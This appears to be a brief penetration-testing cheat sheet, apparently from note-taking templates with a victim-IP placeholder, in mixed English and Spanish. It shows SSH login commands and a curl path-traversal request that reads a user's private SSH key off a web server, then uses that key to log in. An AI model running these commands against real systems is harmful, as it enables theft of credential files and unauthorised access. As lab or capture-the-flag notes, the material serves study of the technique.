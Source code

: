 - you can’t get initial access directly however we can login with user and password and private key.

```sh
ssh Usuario@ip
```

- ssh use with different port 

```sh
ssh -p 2222 noman@<% tp.frontmatter["IPVictima"] %> 
```

- Obtener id_rsa remoto para luego hacer login 

```sh
 curl http://<% tp.frontmatter["IPVictima"] %>/index.php?page=../../../../../../../../../home/noman/.ssh/id_rsa
```

```sh
 chmod 600 id_rsa  and then ssh -i id_rsa -p 2222 noman@<% tp.frontmatter["IPVictima"] %>
```

```sh
 user/.ssh/authorized key
```
